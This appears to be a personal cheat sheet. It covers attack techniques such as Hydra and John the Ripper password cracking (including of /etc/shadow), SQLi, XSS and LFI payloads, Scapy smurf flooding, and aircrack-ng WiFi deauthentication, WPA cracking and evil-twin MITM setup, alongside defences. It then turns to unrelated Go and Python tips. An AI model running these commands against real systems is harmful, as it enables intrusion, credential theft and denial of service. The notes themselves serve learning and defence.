




Introduction
Attacks
Some interesting links
Bruteforce
Brute-force attacks work by calculating every possible combination that could make up a password and testing it to see if it is the correct password. Be aware that, as the password's length increases, the amount of time, on average, to find the correct password increases exponentially.
Hydra
Hydra: tool developed by THC (The Hacker's Choice), uses bruteforce attacks on different protocols
hydra -l root -x 1:9:aA1 [@IP] ssh
- l : username to test for
- x: the tested password will have between 1 and 9 characters with upper and lower case letters and numbers
hydra -V -L usernames.txt -P pass.txt [@IP] [protocol] # performs the combinations between each word in the text files.
hydra [@Host] -V -L usernames.txt -P pass.txt http-get-form "path/to/the/form/:username=^USER^&password=^PASS^&Login:F-incorrect:H=cookie:PHPSESSID=[cookie];security=high"
# Login = name of the button and repeat as long as it is incorrect
John The Ripper (JTR)
Default use
john --wordlist=[wordListFile] [file-to-crack] # To make a crack based on a wordList
john --list=formats # all hash types that can be cracked by JTR
Crack /etc/shadow
cp /etc/passwd ./
cp /etc/shadow ./
unshadow passwd shadow > passwords
john passwords # automatic detection of the hash and starts cracking (press a key to know the evolution (except 'q' because it quits)
john -show passwords # in the folder where the crack is made => to check what has been found
Recovering the passphrase of a private key
ssh2john id_rsa > hash.txt
CeWL (Custom WordList Generator)
https://github.com/digininja/CeWL
Tools to create a list of words based on a URL.
cewl --depth 2 --min_word_length 5 --write words.txt https://example.com
crunch
Generates wordLists if you know how the user created his password
crunch [min_word_length] [max_word_length] -t pass@@ >> wordlist.txt`
The '@' characters are generated by the command. (For numbers, use '%').
Bruteforce an argument of a program
If you need to bruteforce an argument of a program.
strings random.dic > list.txt
while read LINE; do ./program "$LINE"; done < list.txt
Buffer Overflow
Introduction - The Basics
Managing the memory of a binary:
- https://manybutfinite.com/post/anatomy-of-a-program-in-memory/
Memory Segments
- code: contains the instructions to be executed. The instructions are not linear (presence of jumps to other addresses). It is a fixed size segment, read-only. If the program is run several times, this segment will only be present once in RAM.
- data: used to store initialized global and static variables. The segment is of fixed size, readable and writable.
- bss: allows you to store uninitialized global and static variables. Fixed size segment, readable and writable.
- heap: A segment used by the programmer to allocate memory. Once used, these blocks must be deallocated. It varies in size as the program uses it. It has a growing size towards the bottom (high memory addresses).
- stack: A variable size segment that contains the environment (function activation block) of each function, its parameters, its variables, the return address.
Buffer Overflow (BOF)
The flaw: copying data without checking the size. This is a bug whereby a process, when writing to a buffer, writes outside the space allocated to the buffer, thereby overwriting information needed by the process. The aim is to make the process execute instructions.
Security
It is impossible to eradicate application vulnerabilities because the processor does not differentiate between code and data. But there are ways of protecting against them:
- ASLR (Address Space Layout Randomization): allows data zones to be placed randomly in virtual memory (position of heap, stack, libraries). This limits the effect of BOF attacks.
ldd /bin/shis used to check when a process changes address. - Bit NX (non-executable memory page): Technique used in processors to separate areas of memory containing instructions, i.e. executable instructions, from areas containing data.
Web
Few more things
Here are few extra tricks that don't require a full page
DesignMode
It controls whether the entire document is editable. Handy for quickly editing text on a web page.
document.DesignMode = 'on'; // off
Click & Cursor Jacking
Clickjacking: a malicious way to trick a user into providing confidential information or taking control of their computer by tricking them into clicking on apparently safe pages.

Cursor jacking
Aims to create an offset between where you appear to click and where you actually click. This allows you to click anywhere.
Example of cursor jacking code: cursor jacking example
CSRF (Cross Site Request Forgery)
The victim's browser generates a request to a vulnerable web application.
This vulnerability is caused by the ability of browsers to automatically send authentication data in each request.
authentication data :
- session cookie
- HTTP authentication header
- IP address
- client SSL certificate
Protect yourself:
- add a token, not sent automatically, to all sensitive requests => this makes it impossible for the attacker to submit a valid request
- tokens must be cryptographically secure
- store a single token in the session and add it to all forms and links
LFI & RFI
LFI
allows a user to inject local files from a vulnerable URL
Examples
url...?page=include.php # replace include.php with a server file
url...?page=/etc/passwd
Include flaw
<?php include('config.php'); ?>
Can be exploited in :
- Local File Include (a local file to the server)
- Remote File Include (a shell)
Protect yourself from this:
- make sure that the pages you include are on your server
- function: file_exists('name');
- configuration .HTACCESS
Faulty upload
Allows you to backdoor a server by executing a server-side script
Can be exploited in :
- double extension:
shell.php.jpg; - bypass mime verification: change the name of the script
- bypass mime verification: change the type of file being uploaded
- Selecting the destination directory
Protecting yourself:
- Rename files with random names and without extension
- Do not use the characters
< > ? & ;but watch out for their equivalent in other encodings (urlencoding, ascii...) - limit the case => forbid the execution of critical functions at the server level
- .HTACCESS configuration
RFI
allows to include a remote file (mainly shell - command execution...)
url...?page=include.php
url...?page=http://www.google.fr # will add the google page to the page
SQL injections
Concept
- consists of sending data to an application that will generate a bug
- uses strings and interprets them as commands
- allows access and modification of the database
Example: ' OR 1=1 {option}; --
{option} can be:
select null, version()
select null, table_name from information_schema.tables # retrieve tables from the database
select null, column_name from information_schema.columns where information_schema.tables='[name]'
...
Example
// Correct format for executing an SQL statement with parameters.
rows, err := db.Query("SELECT * FROM user WHERE id = ?", id)
// SECURITY RISK!
rows, err := db.Query(fmt.Sprintf("SELECT * FROM user WHERE id = %s", id))
Tools
SQLMAP
SQLMAP is a tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.
-u "url"
--cookie="PHPSESSID=.... ; security=low"
--dump # dump the database
Protect yourself from it
- Escaping all user supplied input
- perform white list validation on user data
- minimize database privileges
- Use of Prepared Statements (with Parameterized Queries)
XSS (Cross-Site Scripting) vulnerabilities
Allows an attacker to inject malicious client code into a website. This code is executed by victims and allows attackers to bypass access controls and impersonate users.
Corresponds to sending data to the victim in order to :
- Steal user sessions, sensitive data, rewrite the web page, redirect to a phishing site...
- Observe the client computer or even force the user to a particular site using an XSS proxy.
Example of a simple payload allowing to know if an input is vulnerable
<script>alert(1)</script>
Reflected XSS (not-persistent)
It is called non-persistent because it is not stored on the server (file or database). This type of XSS flaw does not store the malicious content on the web server. Instead, the content is delivered to the victim through a URL that contains it.
Stored XSS (persistent)
The persistent XSS flaw is the most dangerous because it will be executed at each loading of the site. Indeed, the latter is stored either in a file or in a database. As an example, an attacker posts a comment on a discussion forum containing the malicious content. When other users go to the page containing the fraudulent message or comment, it will be executed.
Protect yourself from it:
- Convert special characters to HTML entities (
htmlsepcialchars(): Example& → & | " → ") - Filter characters equivalent to html and js coding (
htmlentities()) - Remove tags
- Do not include user-supplied content in the output page
DOS - DDOS
Denial of service
Concept: Filling a storage area or communication channel until it can no longer be used.
DoS by smurf
- The attacking machine sends a ping to broadcast servers with a modified source IP address (the one of the target)
- The server echoes the request throughout the network
- All machines respond to the target IP server
- The target receives a lot amount of requests to proceed.
DoS by SYN flood
- The attacker sends a high volume of SYN packets to the targeted server, often with spoofed IP addresses.
- The server then responds to each connection request and leaves a port open to receive the response.
- While the server waits for the last ACK packet, which never arrives, the attacker continues to send more SYN packets. The arrival of each new SYN packet forces the server to temporarily keep a new port connection open for a while, and once all available ports have been used, the server can no longer function normally.
Example
Scapy
i = IP()
i.dst = "192.168.133.255"
ping = ICMP()
request = (i/ping)
send(request) # run wireshark
# in 1 line
send(IP(dst="192.168.133.255", src="192.168.133.129")/ICMP(), count=1000, verbose=1)
The goal is to make specific services unavailable by generating as many requests as possible to the service to be saturated.
An attack originating from a single IP address will be limited and easier to block.
DDOS attack (Distributed Denial of Service)
The multiplication of the origins of the requests allows
- to obtain a virtually unlimited bandwidth
- to make it almost impossible to block by IP
Reflection attack
- Contacting a large number of machines by providing them with an erroneous source address.
- This address will be replaced by the address of the server to be saturated so that the responses of the machines contacted reach it directly.
- If the number of responses is high enough and/or if the messages received involve significant processing, the target and/or the network will be saturated and their proper functioning compromised.
- UDP has priority over TCP and does not implement a congestion control mechanism.
- UDP works without session => possibility to modify the source address.
Amplification attack
The operation is the same as for the reflection attack but using a protocol with the particularity of sending responses with very large packets (to generate a large traffic).
The protocols used:
- Network Time Protocol (NTP): sends a request to synchronize the machines on the network. The answers are of higher size.
- HTTP: by requesting resources from the server regularly, we keep an active connection with it. If many malicious machines make periodic requests, the maximum number of connections to the server can be reached and will be unreachable.
- SNMP: simple version: Ping of Death, send a ping with a size larger than the default. This was fixed in 1998 but improved by using amplification. Sending an ICMP REQUEST packet in broadcast. The number of packets increases proportionally to the number of machines in the network.
DOS WIFI
sequenceDiagram participant U as USER participant AP as AccessPoint U-->>AP:Authentication: MAC Address AP-->>U:Association Note left of U: Access granted! AP-->>U:Deauthentication Note left of U: Automatic reconnection attempt (possible exposure of the password) Note right of AP: The source of the frame is not verified (possibility of spoofing the AP)
aireplay-ng <interface-name> --deauth=3 -a xx:xx:xx:xx:xx:xx # default, destination == broadcast (ff:ff:ff:ff:ff:ff)
# a = bssid
# deauth = frames
DNS
- The computer sends (through the stub resolver) the request to the recursive DNS server of its configuration
- The recursive DNS server sends successively its request to 3 DNS levels
- Solicitation of a root DNS. There are 13 of them with a unique IP. It sends back to the recursive DNS, the addresses of the servers managing the resolution of the 1st level domain (Ex: .io)
- Solicitation of a TLD server managing the top level domain
- Response containing the addresses of the servers managing the TLD (Ex: github.io)
- Solicitation of the server managing github.io
- The server provides the IP to reach bilou4.github.io
- The recursive DNS server provides this IP to the computer
stub resolver: library or DNS component of the computer. It receives DNS requests from the computer's applications and communicates them to the recursive server present in the network interface settings. Sometimes a cache can be present to increase performance (Ex: systemd, systemd-resolv)
Recursive DNS server: It does not have DNS information as such. It gets DNS resolution by querying other DNS types. It has a cache.
Root DNS: There are 13 of them and their IP address is stored in the recursive DNS. They respond to recursive DNS by providing the address of TLD servers.
Top Level Domain: These servers have the names and addresses of all authoritative DNS servers for a domain name under the top level domain they manage.
DNS authority on a DNS domain: this is the DNS server that holds all DNS entries attached to the domain name being resolved
The following command allows you to see these exchanges:
$ dig bilou4.github.io +trace
Network risks
- Privacy loss: DNS queries are in clear. It can be intercepted and modified (content injection) or blocked (censorship)
- compromise responses: DNS queries are poorly signed (DNSsec allows the client to verify that the response comes from an authority. This protects against injection but not inspection or censorship).
- unavailability: an attacker can block a computer's connection to a recursive DNS. The goal of the attack would be to respond faster than the legitimate response with a fake DNS resolution.
Protection
Currently, there is no solution to encrypt between recursive DNS and DNS authorities but 2 protocols exist:
- Dns Over Tls
- Dns Over Https
Stubby: is a tool to encrypt queries between the client and the recursive DNS. It contains a list of DOT servers in its default configuration. ⚠️ may have performance impacts.
DNS Spoofing
Can sometimes refer to DNS cache poisoning. This refers to an attack where a host with no authority, directs a DNS and all its queries.
So an attacker can redirect all DNS queries to his own machine in order to steal data from the victim.
This is a LAN or WLAN attack, which is required for the attacker and victim to have the same network gateway.
It is possible to detect if someone is using this technique on our network (https://null-byte.wonderhowto.com/how-to/tutorial-dns-spoofing-0167796)
Man in the Middle
Concept: The hacker is connected to the same switch as the victims and performs a kind of relay between them.
ARP protocol
Computer-1 wants to communicate with Computer-2 and sends an ARP request to get its MAC address. Computer-2 returns its MAC address.
Tools
3vilTwinAtatcker
Create a fake access point to facilitate an MITM attack.
MITM Proxy
mitmproxy allows to:
- examine multiple client-side requests
- examine HTTPS traffic, replay requests...
- alter web server requests or responses
mitmproxy # 'i' to 'insert'
? # help
Network Sniffing
Concept: Interception of traffic (packets), then packets analysis, decoding of packets if necessary. Information retrieval, browsed URL, username, passwords...
Tools
Ettercap
Tools for Man in the Middle attacks on a LAN. Ettercap is able to perform attacks on the ARP protocol to position itself as a 'Man in the Middle'. This subsequently allows:
- infect, replace and delete data in a connection
- discover passwords for protocols such as FTP, HTTP, POP... Every protocol that is not secure.
- Provide victims with fake SSL certificates in HTTPS sessions
Bettercap
The Swiss Army knife for WiFi, Bluetooth Low Energy, wireless HID hijacking and IPv4 and IPv6 networks reconnaissance and MITM attacks. ベッターキャップ！
Wireshark
Free packet analyzer. It is used for troubleshooting and analysis of computer networks, protocol development, education and reverse engineering.
Network Spoofing
Concept: Sending IP packets using a source IP address that has not been assigned to the sending computer. This is used to:
- Hide one's own identity during a server attack.
- Impersonate other network equipment to gain access to services.
- Modify packets to gain information between two communicating parties.
The hacker sends a spoofed packet to try to take the identity of the spoofed machine. The target machine will think it is the genuine machine trying to communicate with it. Without meaning to, the target sends the packets back to the hacker.
Example: if a hacker manages to spoof a DNS server, he can recover its IP address and thus redirect the target to any site (phishing...)
Tools
DNSChef
To create fake domains (domain request) and control the victim's traffic
dnschef --fakeip=192.168.1.129 --fakedomains example.com --interface 192.168.1.149 -q
- fakedomains: domain the user wants to reach
- fakeip: IP to which the user will be redirected
- interface: refers to the interface used
ARPSpoof
- sniff traffic
- Forge ARP packets between 2 communicating parties
- ARP cache and MAC address
arpspoof -t [@targetmachine] [@poofedmachine]
Wifi - Attack on Wireless Networks
Introduction
Handshake
When we try to connect to a network, our computer goes to the access point (box) which will respond with a challenge. Our computer responds to the box with this encrypted challenge and the security key. The box receives confirmation that the device knows the key thanks to the encryption of the first challenge and therefore informs the device that for it communication is possible and encrypts the computer's challenge. The computer receives this message. It checks the encryption in turn. If both devices agree, then the communication is successfully established.

Tools
Aircrack-ng
This is a suite of wireless network monitoring software whose main use is to break WEP and WPA keys in WIFI networks. It is a rework of the discontinued aircrack software.
Some features:
aircrack-ng # static WEP and WPA-PSK key breaker
airdecap-ng # decrypt captured WEP/WPA files
aidriver-ng # allows you to patch drivers, which is useful for packet injection
airplay-ng # packet injection program
airmon-ng # enables/disables the monitor mode of a wifi card. In this mode the wifi card is placed as an observer of the network
airodump-ng # packet capture program 802.11
Kismet
This is a free network detection software, sniffer and intrusion detection system for 802.11 wireless networks.
It works with cards that support monitor mode and any 802.11 protocol.
Configuration
iwconfig # see its wifi configs
iwconfig [mapName] txpower 30 # increase its txpower by 30
airmon-ng start [mapName] # wifi card in monitor mode => indicate that you want to intercept all packets on the network
Preparation of the equipment
Wifi card connected to the network
airmon-ng check kill # kill airmon related processes
airmon-ng start [interfaceName] # start monitor mode
airodump-ng [nomInterfaceMonitor] # scan for available wireless networks
# Ability to restart the service (instead of restarting the computer)
systemctl start wpa_supplicant.service && NetworkManager
Bypassing HSSI (Hidden Service Set Identifier)
HSSI, consists in hiding the ESSID.
To obtain the ESSID, 2 possible methods:
- sniff the WI-FI environment and wait for a client associated with a network to connect and capture this association
- De-authenticate a client and force it to re-associate with the Access Point and capture the association
aireplay-ng -0 5 -a [HiddenMacNetworkAddress] [InterfaceMonitoringName]
# -0 to indicate that we will de-authenticate
# 5 to indicate that we are sending 5 packets
NB: remember to do the capture at the same time with airdump.
Attacking WEP (Wireless Equivalent Privacy)
Quickly replaced by WPA (Wifi Protected Access)
Initialization Vector (IV)
The RC4 base - stream Cipher Introduce a random element in the encrypted data. VI-24 bit is too small to prevent repetition. Key can be recovered in 3 min (usually).
Manual attack
Wifi card connected in monitoring mode!
airodump-ng [interfaceMonitor] # search for vulnerable wifi networks (BSSID recovery)
airodump-ng -c 11 -w [captureFilename] -b [BSSID] [interfaceMonitor] # check for passing Beacons
aireplay-ng -1 0 -a [BSSID] [interfaceMonitor] # send false authentication
aireplay-ng -3 -b [BSSID] [interfaceMonitor] # sending packets to send Beacons
aircrack-ng [captureFilename] # will attempt to crack the network (need as many IVs as possible)
Automated attack
wifite # Power (the bigger is the number, the closer is the network) | To attack: CTRL+C (stop the analysis and start the interaction)
The password is also displayed in a crack.csv file
wifi cracker # GUI => everything is automated, just need to configure the bases. Different types of attacks are possible.
Attacking WPA and WPA2 Wifi Protected Access
- WPA and WPA2 are Wi-Fi security protocols, succeeding WEP and solving the problems present on it
- They use a PSK (pre-shared key) to secure the communication. PSK must be random (13 char minimum)
- Most common attack => bruteforce
- If configured in enterprise mode using a RADIUS authentication server, WPA is almost impossible to crack
With the wifi card connected in monitoring mode!
airodump-ng [interfaceMonitor] # see the available networks you want to attack
airodump-ng -bssid [BSSID] --channel 1 --write [capturefile] [interfaceMonitor] # start listening for handshakes in an output file (capture)
aireplay-ng --deauth 1 -a [BSSID] [interfaceMonitor] --ignore-negative-one # start de-authentication packets
aircrack-ng [capturefile] -w /usr/share/wordlists/fern-wifi/common.txt
The revear attack is more concerned with testing PINs and may take longer.
airodump-ng [interfaceMonitor]
reaver -i [interfaceMonitor] -b [BSSID] -c [n°Channel] -vv
Cloning access points
Manipulate the user's packets and retrieve the handshakes and keys by pretending to be the network the user is used to.
Wifi card connected and in monitoring mode.
airbase-ng -c [channelNumber] -e "AccessName" [interfaceMonitor] # create a fake access point
airbase-ng -c [channelNumber (less than default channel)] -a [BSSID] -e "ESSIDname" -L -W1 [interfaceMonitor] # copy an access point
# then wait for someone to connect
airodump-ng [interfaceMonitor] --bssid [BSSID] -w [capturefile] # create a capture file
airecrack-ng [capturefile] # crack the key (need as many IVs as possible)
# set up a MITM
airbase-ng --essid [netname=mitm] -c [channelNumber] [interfaceMonitor] # create an access point. This also creates an intermediate interface 'at0' for bridging.
brctl addbr mitm-bridge # bridgeControl tool to create bridges
brctl addif mitm-bridge eth0
brctl addif mitm-bridge at0
ifconfig eth0 0.0.0.0 up
ifconfig at0 0.0.0.0 up
echo 1 > /proc/sys/net/ipv4/ip_forward # enable port forwarding
# Wait for someone to connect.
# Run wireshark to sniff traffic.
# We have access to all the user's requests whether they are on a phone or a computer.
DOS attack
Dos attack by de-authenticating or directly causing denial of service. Wireless networks are extremely susceptible to DOS. In addition, it is difficult to locate the attackers.
Create a DOS by flooding the network with authentication packets.
aireplay-ng -0 5 -a [BSSID] [interfaceMonitor] # tool to flood
# -0 to indicate that these are de-authentication packets
# 5 to say that we are sending 5. If you put 0, it's a continuous stream of packets
websploit
show modules # show available modules
use wifi/wifi_jammer
show options
set interface [interfaceMonitor] # check that the options are correctly set (interface, bssid, essid)
run # run the attack
Zombie Scanning - Idle Host Scanning
Concept : Scanning ports on a machine, but the target machine thinks it is another person scanning it => Anonymity.
When a machine receives 2 packets very close together, it has to determine the order of the packets -> the IP protocol has a field for numbering packets, it's called IPPID (incremental)
hping3 192.168.12.33 --icmp # -> you can see the incremental ids

Diagram explanation: + Step 1: The attacker sends a Syn/Ack packet to find out the zombie's IPID (which returns a RST - reset)
-
Step 2: The attacker sends a SYN message to the target machine, spoofing the zombie's address. If the target machine's port is open, then it will reply to zombie with a SYN/ACK packet. Zombie will then send a RST packet to the target because it is not really the sender. Zombie must have sent a RST packet and must therefore increment its IPID.
-
Step 3: Verify the IPID by sending a new SYN/ACK packet to our zombie, if the IPID received in response has been incremented twice then we are sure that the target machine's port is open.
Tools
Scapy
Injection and manipulation of packets in a network
Module for python to forge, decode, transmit and receive packets from a multitude of protocols (ARP, DHCP, DNS, ICMP, IP...)
i = IP() # create an IP layer variable
i.display() # component of the variable
i.dest = '192.168.13.33' # change the @ dest
i.src # can change by itself because scapy knows the @ of the network card
u = UDP()
u.dport # display port numbers (123 for ntp)
u.display() # displays the port names.
request = (i/u) # assign the 2 layers together
request.display() # to display
response = sr1(request) # receive the transmitted packet
reponse.display() # to analyze the received packet
# the same thing in one line
response = sr1(IP(dst='193.168.13.33')/UDP(dport=53), timeout=1, verbose=1)
response.display()
Python script
import os
import sys
from scapy.all import *
# Bonus imports so VsCode is happy
from scapy.layers.inet import IP, UDP, TCP, ICMP
def is_root():
return os.getuid() == 0
def run_scan(zombie, target, port):
print(f"[+] Scan {target} port {port} using {zombie} as zombie")
# get zombie's IP id with SYN/ACK
p1 = sr1(IP(dst=zombie)/TCP(sport=12345, dport=123, flags='SA'), verbose=0)
initial_id = p1.id
print(f"[+] Zombie initial id {initial_id}")
# SYN to target with spoofed IP from zombie
p2 = send(IP(dst=target, src=zombie)/TCP(sport=12345, dport=(port), flags='S'), verbose=0)
# SYN/ACK to zombie to see if it heard back from the target
p3 = sr1(IP(dst=zombie)/TCP(sport=12345, dport=(123), flags='SA'), verbose=0)
final_id = p3.id
print(f"[+] Zombie final id {final_id}")
if((final_id - initial_id) < 2):
print(f"[+] Port {port} : closed")
else:
print(f"[+] Port {port} : opened")
if __name__ == '__main__':
if (not is_root()):
print("[!] Must be run as root. Quitting")
sys.exit(1)
if(len(sys.argv) < 4 or sys.argv[1] == '-h'):
print("Usage: main.py zombieIP targetIP targetPort")
sys.exit(1)
run_scan(sys.argv[1], sys.argv[2], int(sys.argv[3]))
Nmap
nmap 192.168.133.144 -p 80 # find out if port 80 is open.
nmap -sI [@Zombie] [@cible] -p [port]
Social Engineering
Books: + the Art of Deception - Controlling the human element of security, Kevin Mitnick
Tools
SET (Social Engineering Toolkit)
- phishing
- web pages copies
- mail bombing
- infection every time a CD/DVD/USB is inserted
OSINT
Google Dorks
Summary
| Filter | Description |
|---|---|
allintext:"keyword" | Searches for occurrences of all the keywords given. |
intext:"keyword" | Searches for the occurrences of keywords all at once or one at a time. |
inurl:"keyword" | Searches for a URL matching one of the keywords. |
allinurl:"keyword" | Searches for a URL matching all the keywords in the query. |
intitle:"keyword" | Searches for occurrences of keywords in title all or one. |
allintitle:"keyword" | Searches for occurrences of keywords all at a time. |
site:"www.google.com" | Specifically searches that particular site and lists all the results for that site. |
filetype:"pdf" | Searches for a particular file type mentioned in the query. |
link:"keyword" | Searches for external links to pages. |
numrange:321-325 | Used to locate specific numbers in your searches. |
(before:2000-01-01 after:2001-01-01) | Used to search within a particular date range. |
inanchor:rat (allinanchor) | This shows sites which have the key terms in links pointing to them, in order of the most links. |
allinpostauthor:"keyword" (inpostauthor) | Exclusive to blog search, this one picks out blog posts that are written by specific individuals. |
related:www.google.com | List web pages that are “similar” to a specified web page. |
cache:www.google.com | Shows the version of the web page that Google has in its cache. |
Features
OR - AND
site:facebook.com | site:twitter.com
site:facebook.com & site:twitter.com
Include results
This will order results by the number of occurrences of the keyword.
-site:facebook.com +site:facebook.*
Exclude results
site:facebook.* -site:facebook.com
Synonyms
Adding a ~ to a word tells Google that you want it to bring back synonyms for the term as well. For example, entering ~set will bring back results that include words like configure, collection and change which are all synonyms of set.
~set
Glob pattern (*)
Putting an asterisk in a search tells Google I don’t know what goes here. Basically, it’s really good for finding half remembered song lyrics or names of things.
site:*.com
Tools
https://github.com/Zarcolio/sitedorks : Search Google/Bing/Ecosia/DuckDuckGo/Yandex/Yahoo for a search term with a default set of websites, bug bounty programs or a custom collection.
Go
Why Go?
- clean package management system
- cross compilation
- rich standard library
- concurrency
Why not Go?
- binary size
- verbosity
Build flags
- buildvcs=false omits version control information
- ldflags=
- "-w -s" strips binaries
- "-X path/to/a/variable" change variable value at compile time
- CGO_ENABLED
- =0 ideal for scratch docker image (no host OS to be bundled). It uses a basic Go implementation
- =1 uses the native OS libraries. It implies a smaller binary size but relies on delivering a host OS too. It must be set to 1 if your application imports a package with C code.
for idx, value := range &a{} // a is copied
for idx, value := range a{} // a is not copied
uintptr // type containing an integer of a memory address and not a reference to a pointer
Go type-safe pointer → keeps its reference to the runtime without Garbage Collector problem
unsafe.Pointer → can be garbage collected
Variables are passed by value
In Go, arrays are passed by value.
var t1 [5]int32
var t2 [5]int32{0,0,0,0,0}
var t3 [...]int32{0,0,0} // number of elements in the array are computed at compile time
Slices are passed by reference.
s1 := t1[:]
s2 := []int{0,1,2,3}
Except for slices and maps
TODO: examples For slices: values can be changed but you cannot add elements. For maps: any changes are reflected in the variable passed into the function.
Pretty print - table print
package main
import (
"fmt"
"os"
"strings"
"text/tabwriter"
)
func main() {
writer := tabwriter.NewWriter(os.Stdout, 0, 4, 0, '\t', 0)
table := [][]string{{"A", "B"}, {"A", "B"}, {"A", "B"}}
for _, line := range table {
fmt.Fprintln(writer, strings.Join(line, "\t")+"\t")
}
writer.Flush()
}
# Output
A B
A B
A B
Download indication
package main
import (
"fmt"
"strconv"
"strings"
"time"
)
func lenItoa(i int) int {
return len(strconv.Itoa(i))
}
func main() {
var s string = "Downloading: 0%"
fmt.Print(s)
for i := 0; i <= 100; i++ {
time.Sleep(100 * time.Millisecond)
fmt.Print(strings.Repeat("\b", lenItoa(i)+1))
fmt.Printf("%d%%", i)
}
fmt.Println()
}
Memoization in Go
Closures in Go can help you perform memoization on a specific function prototype.
Closures are functions declared inside of functions. The inner function is able to access and modify variables declared in the outer function.
package main
import (
"fmt"
"time"
)
func add(a, b int) int {
time.Sleep(5 * time.Second)
return a+b
}
func memoization(f func(int,int)int) func(int,int)int{
cache := make(map[string]int)
return func(a,b int) int{
i := fmt.Sprintf("%d+%d",a,b)
if v,ok := cache[i]; ok {
return v
}
res := f(a,b)
cache[i] = res
return res
}
}
func main() {
println("add(1,1) without memoization")
start := time.Now()
// the execution will last at least 5 seconds
println("res = ", add(1,1), time.Since(start).String())
addMemoized := memoization(add)
println("add(1,1) with memoization 1/n")
start = time.Now()
// the execution will last at least 5 seconds
println("res = ", addMemoized(1,1), time.Since(start).String())
println("add(1,1) with memoization 2/n")
start = time.Now()
// the execution will be instant
println("res = ", addMemoized(1,1), time.Since(start).String())
}
Gracefully shutdown your server
var err error
ctx := context.Background()
done := make(chan os.Signal, 1)
errChan := make(chan error, 1)
signal.Notify(done, os.Interrupt, syscall.SIGTERM)
serv := &http.Server{
Addr: addr,
Handler: routes,
}
go func() {
err = srv.ListenAndServe()
if err != nil {
errChan <- err
}
}()
select {
case <- done:
case <- errChan:
// do something with the error
}
err = srv.Shutdown()
// do something with the error
log.Println("server stopped")
Hot reload
SIGHUP is a signal sent to a process when its controlling terminal is closed. It is common practice for daemonized process to use SIGHUP for configuration reload .This allows us to not terminate the process while making changes.
kill -SIGHUP PID
package main
import (
"fmt"
"net/http"
"os"
"os/signal"
"syscall"
)
type config struct {
Msg string
}
var conf = &config{Msg: "Hello World"}
func main() {
http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
w.Write(([]byte(conf.Msg)))
})
sigs := make(chan os.Signal, 1)
signal.Notify(sigs, syscall.SIGHUP)
go http.ListenAndServe(":8000", nil)
fmt.Println("Program PID:", os.Getpid())
for {
// blocking if no default
select {
case <-sigs:
conf.Msg = "Go Go Go"
}
}
}
$ ./server &
Program PID: 17247
$ curl localhost:8000
Hello World
$ kill -SIGHUP 17247
$ curl localhost:8000
Go Go Go
Using a map as a Set
There are 2 possibilities. The first one is using bool as value: it uses one byte in memory. But it is easier to read/understand.
intSet := map[int]bool{}
if intSet[100] {
print("100 is in the Set")
}
The second one is using empty struct as value: it uses 0 byte in memory but is a bit trickier.
intSet := map[int]struct{}{}
if _, ok := intSet[100]; ok {
print("100 is in the Set")
}
Benchmark in Go
Functions start with 'Benchmark'.
# default, runs using all CPUs available. Otherwise, -cpu=X
go test -bench=.
# -count X -> runs X times each benchmark function
# -benchmem -> include memory allocation statistics
Output format
BenchmarkFunctionName-<number-of-CPU> <number-of-execution> <speed-of-each-operation>
# number-of-execution = b.N
The internal package in Go
.
├── bar
│ └── bar.go # Cannot access
├── foo
│ ├── foo.go # Can access
│ ├── internal
│ │ └── internal.go # Exported identifiers are only accessible to the direct package of 'internal' and the siblings package of 'internal'
│ └── sibling
│ └── sibling.go # Can access
└── go.mod
Type Alias
In the following example, Bar is an alias of Foo. It has everything Foo has and it does not need type conversion.
type Foo struct{}
func (f Foo) Hello() string {
return "Hello"
}
type Bar = Foo
Python
CLI - Shell
- prompt-toolkit: allows to get a shell in which the user can execute commands.
- keeps a history of the commands
- proposal of completion from existing commands and from the history
- syntax highlighting
- dialog box (Ex: Important decision)
- PyInquirer: create simple interactions with the user (questions/answers)
Click
How to use a tag (eg:@common_options) for commands that have same options.
def common_options(f: Callable):
options = [
click.option(...),
]
return functools.reduce(lambda x,opt: opt(x)options,f)
Data visualization
- Pandas, Numpy
- Matplotlib, Graphviz, Dash, Orange
Recursive unzip with password
import os
number = 556
while number > 0:
os.system("zip2john zip_"+str(number)+".zip > hash")
os.system("john --wordlist=rockyou.txt hash > dustbin")
os.system("john --show hash > needyou")
f = open('needyou','r')
lines = f.readlines()
password = lines[0].split(':')[1]
f.close()
os.system("unzip -P "+password+" zip_"+str(number)+".zip")
os.system("rm zip_"+str(number)+".zip")
number-=1
Testing in Python
@pytest.fixture
Run code before a test method
@pytest.fixture
def before_test():
pass
def test_f1(before_test):
